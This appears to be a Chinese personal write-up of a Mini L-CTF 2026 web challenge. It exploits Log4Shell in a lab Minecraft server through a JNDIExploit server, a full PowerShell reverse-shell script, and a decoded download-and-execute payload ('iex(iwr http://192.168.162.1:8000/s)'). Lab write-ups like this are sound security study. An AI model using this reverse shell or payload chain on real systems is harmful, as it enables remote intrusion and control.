







# Mini L-CTF 2026 web类个人题解

## 2.EzDomain-flag01

题目说入口 IP 为 192.168.162.10，用nmap扫端口



没扫到啥，加大功率：



| 参数名 | 作用 |
| --- | --- |
| -Pn（No Ping） | 跳过所有主机存活检测步骤 |
| -sV（Service Version） | 开启服务版本探测功能 |
| -p- | 指定扫描所有65535个TCP端口 |
| --min-rate 5000 | 强制设置发送数据包的最低速率为每秒5000个 |

发现神奇软件minecraft，一搜发现这个版本有严重java漏洞，叫做Log4j2

上b站学学习一波：

https://www.bilibili.com/video/BV1SBAezKE7A

https://www.bilibili.com/video/BV1rVeJevEP1

于是开始利用log4j2漏洞：

开四个powershell窗口

窗口1：开LOAP服务和HTTP服务并启动JNDI注入利用辅助工具：

```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.162.1 -l 1389 -p 8888
```

结果由于java版本太新而报错（在Java 9+中，内部API被强封装，直接反射调用会抛出java.lang.IllegalAccessError）

但找到了解决方案，通过加 --add-exports=<源模块>/<包名>=<目标模块>

也是终于成功在攻击机（192.168.162.1）上启动了两个服务：

LDAP 服务（端口 1389）和HTTP服务（端口 8888）



当WEB01攻击机请求LDAP时，JNDIExploit会返回一个LDAP引用，告诉WEB01去http://192.168.162.1:8888/Exploitxxxx.class下载class

这个class是JNDIExploit生成/提供的，它执行什么，取决于在 JNDI payload 里给它的命令。

即负责接住WEB01的JNDI请求，并把恶意class投递给WEB01

窗口2：HTTP文件服务器

作用：把当前目录变成HTTP文件目录，让WEB01下载s这个PowerShell反弹shell脚本



s脚本内容如下：

```powershell
$c=New-Object Net.Sockets.TCPClient('192.168.162.1',9001)
$s=$c.GetStream()
[byte[]]$b=0..65535|%{0}
while(($i=$s.Read($b,0,$b.Length)) -ne 0){
  $d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i)
  $r=(iex $d 2>&1 | Out-String)
  $p='PS '+(pwd).Path+'> '
  $o=([Text.Encoding]::ASCII).GetBytes($r+$p)
  $s.Write($o,0,$o.Length)
}
$c.Close()
```

整体工作流程：

连接攻击者监听的192.168.162.1:9001-->

循环等待对方发送命令-->

收到命令后，在受害者机器上用iex执行-->

将输出（含错误）和模拟提示符发回-->

连接断开时退出

窗口3：ncat监听反弹shell



作用：监听9001端口，等待WEB01执行s脚本后反连回来

窗口4：触发 Minecraft Log4Shell payload



Base64解码为：powershell -w h -c "iex(iwr http://192.168.162.1:8000/s)"

iwr 负责把 /s 内容拿回来，iex 负责把拿回来的内容当代码执行。

作用：模拟 Minecraft 1.12.2 客户端连接 192.168.162.10:25565

发送聊天消息 payload来触发 WEB01 上的 Log4Shell

整体链路如下：


下一步，得到了WEB01的shell权限，轻松获取flag01


